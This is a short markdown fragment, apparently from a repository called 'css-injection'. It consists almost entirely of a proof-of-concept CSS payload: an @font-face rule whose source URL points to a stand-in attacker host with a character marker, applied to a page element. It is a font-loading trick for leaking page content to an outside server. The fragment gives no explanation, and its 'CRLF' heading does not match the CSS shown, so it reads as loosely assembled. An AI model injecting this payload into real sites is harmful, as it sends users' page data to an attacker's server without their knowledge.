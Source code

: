 # css-injection
<h1>CRLF</h1>  <br/>


>@font-face{ <br/>
> font-family:poc;  <br/>
> src: url(attackerURL?C); <br/>
>}  <br/>
>#p1{  <br/>
> font-family:poc;  <br/>
>} <br/>
